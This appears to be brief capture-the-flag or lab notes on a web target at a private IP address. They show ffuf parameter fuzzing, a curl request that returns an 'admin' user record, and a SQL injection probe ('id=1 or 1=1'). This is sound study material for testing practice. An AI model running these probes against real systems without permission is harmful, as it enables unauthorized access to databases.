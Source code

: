 ___

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u  http://10.129.202.133:3003/?FUZZ=test -fs 19
```

```bash
curl http://10.129.202.133:3003/?id=1
```

```json
 {  
   "id": "1",  
   "username": "admin",  
   "position": "1"  
 }
```

![[Pasted image 20241014190816.png]]

```bash
curl http://10.129.202.133:3003/?id=1+or+1=1
```

![[Pasted image 20241014190952.png]]